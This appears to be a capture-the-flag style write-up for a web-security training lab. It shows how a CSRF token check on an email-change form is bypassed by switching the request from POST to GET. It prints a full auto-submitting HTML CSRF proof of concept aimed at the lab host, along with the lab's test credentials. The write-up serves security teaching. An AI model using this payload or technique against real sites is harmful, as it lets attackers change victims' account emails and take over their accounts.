





## Objective 

This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter` 

## Solution 

Once after login with the credentials provided `wiener:peter` and we have a functionality to update the email 

 

Intercepted the request of update email in burp, As a result we can see that there is a `302` redirect 

 

Now, I removed the values of `csrf` parameter in the `POST` body and sent the request.. As you see where we faced an error here called `"Missing parameter 'csrf'"` 

 

Changed the request method from `POST` to `GET` bypassed and we can able to update the email without any CSRF token out there 



Awesome, we will generate CSRF POC using engagement tools from burpsuite and here is how it looks 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a3b0057035328af808c7bd000e50052.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="n&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

In the exploit server, we will paste the above HTML code as a body and click on `store` and then `deliver exploit to victim` will solve the lab 

